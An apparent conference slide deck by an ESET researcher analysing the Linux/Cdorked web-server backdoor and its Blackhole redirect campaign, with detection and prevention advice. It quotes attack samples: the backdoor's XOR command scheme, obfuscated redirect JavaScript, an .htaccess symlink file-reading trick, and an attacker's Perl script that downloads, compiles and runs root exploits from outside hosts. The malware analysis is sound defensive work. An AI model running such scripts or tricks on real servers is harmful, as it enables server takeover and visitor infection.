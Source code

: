// Slide-deck
//
// To render completely standalone file:
// $ asciidoc -a data-uri -a linkcss! slides.adoc
//
// To link to the assets (images and css) using relative path:
// $ asciidoc slides.adoc
Linux/CDorked
=============
Olivier Bilodeau, @obilodeau <bilodeau@eset.com>
v1.0, July 3rd 2013
:title: Linux/Cdorked
:description: A server-side malware campaign
:confname: OWASP Montreal July 2013
:website: https://www.owasp.org/index.php/Montreal
:copywrite: CC BY-SA 4.0
:slidesurl: http://obilodeau.github.io/slides/linux-cdorked/owasp-mtl-201307/
:backend: dzslides
:imagesdir: images
:linkcss: true
:dzslides-style: owasp-mtl
:dzslides-transition: horizontal-slide
:syntaxoff: syntax="no-highlight"
// :dzslides-highlight: github
// :dzslides-fonts: family=Yanone+Kaffeesatz:400,700,200,300&family=Cedarville+Cursive

== \\
=== `:~$ whoami`

[{stepwise}]
* Linux \{desktop,server\} guy [detail]#10+ years#
* Been around [detail]#WebStorm Media, Bell Unix/Network, Inverse, ÉTS#
* Now works for ESET Canada [detail]#Malware Researcher#
* Achievements [detail]#Defcon, Hackfest, Nsec Hacker Jeopardy, montrehack#

[{topic}]
== What is this Cdorked thing anyway?

== \\

[quote]
____
Linux/Cdorked.A is a backdoor, used by malicious actor to serve malicious content from legitimate websites."
____

== \\

[quote]
____
This malware does not propagate by itself and it does not exploit a vulnerability in a specific software."
____


== \\
=== How did this started?

[{stepwise}]
* Sucuri contacted us [detail]#Web incidence response company#
* Observed malicious behavior [detail]#but couldn't reproduce it#

== \\
=== Tonight

* technical description [detail]#prevalence, stealthiness, how it works#
* bigger threat
* [some] attribution
* detection, prevention
* but first...

== \\
=== Why should you care?

[{stepwise}]
* Not infecting clients is best for reputation and returning users
* End-result infection almost always has some sort of credential stealer
* It is using your resources
* Your organization uses webservers
* Ops monitor the servers well? [detail]#this thing is stealthy#
* Ops don't run AV on Linux servers [detail]#IMHO nor should they#

[NOTES]
====
* this thing is stealthy
* biz also: not good if you infect your own organization
* They've got an httpd privileged shell!!
** but how did they installed it? A: root
====

== \\
=== High-level description
 
[{stepwise}]
* backdoor compiled in popular Web Servers 
** Apache, nginx, lighttpd
* redirect end-users HTTP requests [detail]#based on certain parameters#

[NOTES]
====
You have to be motivated to support all these webservers

====

== \\
=== Prevalence

[{stepwise}]
* Hundreds (thousands?) of compromised servers
* 50 ranked in Alexa's top 100 000
* Active since December 2012
* 100 000 ESET users exposed [detail]#but protected!#
* 3rd party info reveals several 100k's

[{topic}]
== Lets get `technical`

== \\
=== Stealth

[{stepwise}]
* only modified daemon binary on disk [detail]#no logs, no config#
* no hardcoded C&C servers [detail]#push instead of pull#
* configuration pushed by attacker through obfuscated HTTP requests
* uses POSIX shared memory for IPC
* strings are encrypted with a static XOR key image:xorkey.png[]

[NOTES]
====
* no logs is actually possible *because* it is not a module and can affect
  the logging chain
* harcoded C2: as opposed to most other threat we encounter. 
  possible because nature of webserver.
* obfusc HTTP: and these skip the webserver's usual logging mechanisms
====

== \\
=== Stealth++

Found in the wild doing:

[{stepwise}]
* Strict User-Agent blocking
* Strict Accept-Language blocking
* Long list of blacklisted IPs [detail]#~50% of IPv4#

[NOTES]
====
* Languages: no JP, finnish, russian, ukrainian, kazakh or belarusian
====

== \\
=== Shared memory

[{stepwise}]
* 6 MiB of POSIX shared memory [detail]#`shm`#
* Used for inter-process communications (IPC)
* First variant had world-writable permissions [detail]#doh..# 
  image:shm.png[]

== \\
=== Command channels

Two main command channels

* Reverse-connect backdoor
* HTTP Location redirect control

[{topic}]
== Backdoor

== \\

// ref: http://www.welivesecurity.com/wp-content/uploads/2013/04/backdoor1-623x412.jpg
image::backdoor.jpg[height="100%"]

[NOTES]
====
* This is ESET researcher's view of a backdoor
====

== \\
=== Backdoor component

[{stepwise}]
* Some code "borrowed" from `cd00r` + 
  [detail]#a popular linux reverse-shell#
* Triggered via special `HTTP GET URI` and parameters
* Connect back is XOR obfuscated

[NOTES]
====
* hence the name
====

== \\
=== XOR obfuscation

[source,python]
----
h = headers
ip = (h['X-Real-IP'] || h['X-Forwarded-For'] || h['Remote-addr'])
ip = socket.inet_aton(ip)
xorkey = array.array('c', (
    (ord(ip[0]) + w) % 256,
    (ord(ip[1]) + x) % 256,
    (ord(ip[2]) + y) % 256,
    (ord(ip[3]) + z) % 256))
command = xor_decrypt(query_string, xorkey)
----

Since we can control `X-Real-IP` or + 
`X-Forwarded-For` a `0x00000000` key can be constructed

== \\
=== Backdoor quirks 

[{stepwise}]
* HTTP request hung until the shell is exited
* Upon termination, HTTP 302 redirects to google.com
* This is logged unlike other actions!

[{topic}]
== Malicious payload

HTTP Location redirect

== \\
=== Controlling it

[cols="1,4", width="95%", align="center", options="header"]
|============================================================================
|Command    | Description
|'L1', 'D1' | Load or delete the list of *redirect URL*
|'L2', 'D2' | Load or delete the list of *blacklisted IP* ranges  
|'L3', 'D3' | Load or delete the list of *User-Agent whitelist* pattern 
|'L4', 'D4' | Load or delete the list of *User-Agent blacklist* pattern 
|'L5', 'D5' | Load or delete the list of *Referer whitelist* pattern
|'L6', 'D6' | Load or delete the list of *blacklisted IP* 
|'L7', 'D7' | Load or delete the list of request *excluded pages*
|'L8', 'D8' | Load or delete the list of *whitelisted IP* ranges
|'L9', 'D9' | Load or delete the list of *Accept-Language blacklisted* patterns 
|'LA', 'DA' | Load or delete the list of request *whitelisted pages*
|'ST'       | Print server stats 
|'DU'       | Clear the list of redirected IPs 
|'T1'       | A timestamp
|============================================================================

[NOTES]
====
*23 commands* available to affect redirection conditions

====

== \\
=== Staying under the radar

[{stepwise}]
* Won't redirect if URL, `Server-Name` or `Referrer` matches any of: + 
  'adm', 'webmaster', 'submit', 'stat', 'mrtg', 'webmin', 'cpanel', 'memb',
  'bucks', 'bill', 'host', 'secur', 'support'
* Additional restrictions on `Accept-Language`, `Accept-Encoding` and 
  `Referrer` headers

== \\
=== Not too aggressive

Only redirects victims once

* Relies on some hardcoded cookie
+
[source,perl]
----
$cookie =~ /GIDID=6745609876567/;
----
+
* and, we're pretty sure, also with server-side state

== \\
=== Lastly

* Custom redirections supported [detail]#`User-Agent` based#

== \\
=== Redirection control mechanism

The query must have:

[{stepwise}]
* `POST` to a special URL pattern (not unique)
* Client IP is similarily XORed as with the backdoor mechanism
* `SECID=...` cookie to pass arguments to the malware
* Some status returned through ETag header

[NOTES]
====
* Varies per sample
* With hex-encoded command in the query portion
====

[{topic}]
== Beyond Cdorked

Let's see how the campaign we are tracking right now behaves.
[detail]#You have an idea for a cool name?#

But first...

[NOTES]
====
* Cdorked is the framework, we will look at this campaign's implementation
====

== \\

// ref: http://geekmom.com/wp-content/uploads/2013/04/153309main_hidden_blackhole_lg.jpg
image::blackhole.jpg[width="100%"]

[NOTES]
====
* but first you need to understand blackhole
====

== \\
=== Blackhole background

[{stepwise}]
* Operator 'licenses' a copy of Blackhole
* Victim loads compromised Web page who sends it to Blackhole server
* Server push obfuscated javascript to identify usable vulnerability
* Server sends exploit [detail]#Browser, Java applet, Adobe Reader or Flash, etc.#
* Operator decides what malicious code he 'deploys' on client computer

[NOTES]
====
* We believe the real server is usually hidden behind reverse-proxy on
  compromised site
====

== \\
=== Redirection chain

----
Location: hxxp://dcb84fc82e1f7b01.xxxxxxgsm.be/index.php?j=anM9MSZudmNiaW11Zj1jY3Zja3FqdSZ0aW1lPTEzMDQxNjE4MjctMzYwNDUzNjUwJnNyYz0yMzImc3VybD13d3cuaW5mZWN0ZWRzZXJ2ZXIuY29tJnNwb3J0PTgwJmtleT0xM0Q5MDk1MCZzdXJpPS9mb3J1bS93Y2YvanMvM3JkUGFydHkvcHJvdG9hY3Vsb3VzLjEuOC4yLm1pbi5qcw==
----

* OWASP people, what is this?

== \\
=== Yes, Base64!

* `j=` is base64 encoded:
----
js=1&nvcbimuf=ccvckqju&time=1304161827-360453650&src=232&surl=www.infectedserver.com&sport=80&key=13D90950&suri=/forum/wcf/js/3rdParty/protoaculous.1.8.2.min.js
----
* `surl`, `sport`, `suri`, `js`, ...
* Data to client delivered based on URL (javascript, html)

== \\
=== Example first javascript redirection

[source,javascript]
----
var iflag = "0"; if (top!=self) { iflag = "1"; };
var b64str = "MTQxNDExMzA1MDIyMjQ4M...luLmNvbS9zb3J0LnBocA==";
setTimeout ( function() { 
    location.replace( "hxxp://ae334b05c4249f38" + iflag + b64dec(b64str) );
}, 280);
----
* `iflag`: prevent/detect a straight query?
* `b64` provided by server. debase64'd gives something like:
+
----
1414113050222483098587bcf02fc1731aade45f74550b.somedomain.com/sort.php
----
// Copyright ESET Canada used with permission
image:generated-domain.png[]

[NOTES]
====
Why extended DNS? Not sure but:
* keep client side state (timestamp)
* operator think it's stealthy?
====

== \\
=== Example iframe injection

[source, javascript]
----
function gotime() { xflag=false; top.location.replace(b64dec("aHR0cDovL2FlMzM0YjA1YzQyNDlmM...
...cD94PTEzNyZ0PXRpbWVvdXQ=")); };
var timer=setTimeout("gotime()", 21000);
var ewq;
ewq=document.createElement("span");
ewq.innerHTML=b64dec("PGlmcmFtZSBzcmM9Im...1lPjxicj4=");
setTimeout(function() { document.body.insertBefore(ewq,document.body.lastChild); }, 504);
aHr...XQ= : hxxp://ae334b05c4249f38014141130...
...50222483098587bcf02fc1731aade45f74550b.somedomain.com/exit.php?x=137&t=timeout
< .. content .. >
----

Leading you to a blackhole exploit kit

== \\
=== Other devices?

Saw iPhone, iPad explicitly redirected to porn

[NOTES]
====
* monetization?
====

[{topic}]
== Let's recap

You go to your favorite site

== \\

// ref: screen of http://catoverflow.com
image::catoverflow.png[width="100%"]

[{topic}]
== Demo

[NOTES]
====
* draw on the whiteboard something like this: infection-sequence.svg
====

== \\
=== While researching this

* Evidence of link to SSHDoor [detail]#aka Ebury#
* IPs cross-referenced between the two
* DNS algo changed since we published + 
  [detail]#they are watching us watch them#

== \\

Compare XORs

[options="header"]
|=====================================================
| CDorked XOR             | SSHDoor XOR
| image:cdorked-xor.png[] | image:sshdoor-xor.png[]
|=====================================================


== \\
=== Quite complex server-side operation

[{stepwise}]
* Compromised web-servers
* Compromised SSH servers [detail]#stealing credentials, private keys, ...#
* Compromised DNS servers

== \\
=== Tracking

* Seen a single server redirect 28 000 users to malware in 24h
* Around 10 nameservers tracked
* Cleaned hosts get reinfected [detail]#:(#

== \\
=== Tracking changes

* Domain name changes quickly
* Nameservers changes less quickly
* Blackhole host (reverse-proxies?) changes even less often
* Query path also changes + 
  [detail]#`/info/last/index.php` is now `/sec/i/index.php`#

== \\
=== Some numbers

image:info-last-hits.png[width="95%"]

== \\
=== Ongoing investigation

* We have a compromised DNS server sample
* SSH backdoors more prevalent than we initially thought [detail]#several versions#

Expect blog posts with more information soon!

== \\
=== How did we get there?

[{stepwise}]
* Got sample
* Mad reversing skillz
* Bulk imported the Apache headers in IDA
* Confirmed hypothesis in virtual environment
* Using our data sources for further analysis

[NOTES]
====
* Please please send us your samples! We analyze them for free (if they are interesting)
* added functions were actually pretty easy to spot (hash-looking names)
====

[{topic}]
== What can you do?

== \\
=== Detect it

* We have made an open source small
  http://www.welivesecurity.com/wp-content/uploads/2013/04/dump_cdorked_config.c[detection program]
* Backdoor usage could be detected via netstat

[NOTES]
====
* latest Cdorked version not detected by it... shm perm and size changes.
  working on it
* due to long lived outgoing TCP connection from Apache process
====

[{topic}]
== Prevent it

== \\
=== Verify your OS' integrity

* http://manpages.ubuntu.com/manpages/natty/man1/debsums.1.html[debsums]
* http://linux.die.net/man/8/rpm[rpm --verify]
* External integrity verification [detail]#tripwire, memory forensics#

But remember that the integrity database can be tampered with!

[NOTES]
====
* lesser known could be better
* arguably you want to verify maybe from remote location
====

== \\
=== Build farms of Linux malware?

I don't think so!

So don't install `gcc` on production systems!

[NOTES]
====
* but actually maybe they do spread with RPMs since they are root?
* lets discuss this over beer :)
====

== \\
=== Other ideas

* Reduce attack surface with read-only filesystem for your webroot/
* Disable the `shell` of your webserver user

[NOTES]
====
* lets discuss this over beer :)
====

== \\

[quote]
____
But why are these servers getting popped in the first place?"
____

== \\
=== We don't know...

Hypothesis

[{stepwise}]
* leaked credentials
* compromised *panel software
* webapp vulnerabilities

[NOTES]
====
* our industry isn't as equipped to do server forensics
* discuss the leaks
====

== \\
=== Escalation to root

Symlink attacks combined with

[{stepwise}]
* cron jobs
* custom `php.ini`
* procmail, cgi-bin/

[NOTES]
====
* from FTP or httpd account
* sucuri's info
====

== \\
=== .htaccess

I want to read anything!

----
$ ln -s / /home/userX/www/root
$ cat /home/userX/www/.htaccess
Options all
DirectoryIndex Sux.html
AddType textplain .php
AddType textplain .conf
AddType textplain .sql
AddType textplain .log
AddHandler server-parsed .php
AddHandler txt .html
Require None
Satisfy Any
----

== \\
=== Privileged operations

* Environment injection in `setuid` scripts
* Badly written cronjobs
* ...

== \\
=== Serialized exploitation

[source,perl]
----
#! /usr/bin/perl
# Exploit tools v2.0 coded by iskorpitx (Turkish Hacker)
# linux serverlerde gecerlidir
# by iskorpitx
{
system("rm *.txt”);
system("wget http://www.euromedalex.org/profiles/a.c”);
system("gcc a.c -o ab”);
system("chmod 777 ab”);
system("./ab”);
system("./id”);
system("wget http://www.euromedalex.org/profiles/a”);
system("chmod 777 a”);
system("./a”);
system("id”);
system("rm ab.txt”);
system("wget www.cuia.net/media/ab.txt”);
system("wget www.kassfm.co.ke/cache/15704.c”);
system("gcc 15704.c -o 1704″);
system("chmod 777 1704″);
system("./1704″);
system("id”);
...
----

[NOTES]
=====
* Sucuri found scripts like these on servers
* clearly not APT-style attackers ;)
=====

== \\
=== Nothing new

It's the sheer volume of badly hosted sites that makes CDorked and this
campaign what it is.

[NOTES]
====
* Not much new regarding how to secure your stuff
====

== \\
=== Community reaction to Cdorked

Tools

* https://blog.kumina.nl/2013/05/checking-for-linuxcdorked-a/[Nagios/Icinga check tool released by Kumina]
* http://pastebin.com/EittPYmK[Perl reimplementation of original check tool]

[NOTES]
====
* The biggest article on our blog.
Coverage in
* Ars Technica
* Slashdot
====

== \\
=== Special thanks

* Sucuri Team
* Marc-Etienne M. Léveillé [detail]#ESET Researcher#
* Sébastien Duquette [detail]#ESET Researcher#
* François Chagnon [detail]#ESET Researcher#
* Pierre-Marc Bureau [detail]#ESET Researcher#

== \\
=== Conclusion

* Be careful
* Spread the word
* Send us binaries!

== \\
=== Questions?

Thank you!

[{topic}]
== References

== \\
=== Our own research

* http://www.welivesecurity.com/2013/04/26/linuxcdorked-new-apache-backdoor-in-the-wild-serves-blackhole/[Linux/Cdorked.A: New Apache backdoor being used in the wild to serve Blackhole]
* http://www.welivesecurity.com/2013/05/07/linuxcdorked-malware-lighttpd-and-nginx-web-servers-also-affected/[Linux/Cdorked.A malware: Lighttpd and nginx web servers also affected]
* and some more yet-to-be-published information

== \\
=== Sucuri's

* http://blog.sucuri.net/2013/06/new-apache-module-injection.html[New Apache Module Injection]
* http://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-symlinks-to-root-part-i.html[From a Site Compromise to Full Root Access – Symlinks to Root – Part I]
* http://blog.sucuri.net/2013/05/from-a-site-compromise-to-full-root-access-local-root-exploits-part-ii.html[From a Site Compromise to Full Root Access – Local Root Exploits – Part II]

== \\

Others

* https://code.google.com/p/malware-lu/wiki/en_malware_cdorked_A[Malware.lu: Analyse of the sample cdorked.A]
* http://blog.spiderlabs.com/2013/06/digging-into-the-new-apache-injection-module.html[Spiderlabs: Digging into the New Apache Injection Module]
* http://en.wikipedia.org/wiki/Blackhole_exploit_kit[Wikipedia: Blackhole exploit kit]
* http://secondlookforensics.com/linux-malware-detection/[Secondlook Forensics: Linux Malware Detection]

3rd party tools

* https://blog.kumina.nl/2013/05/checking-for-linuxcdorked-a/[Detection through Nagios / Icinga]
* http://pastebin.com/EittPYmK[Perl reimplementation of original python checker]
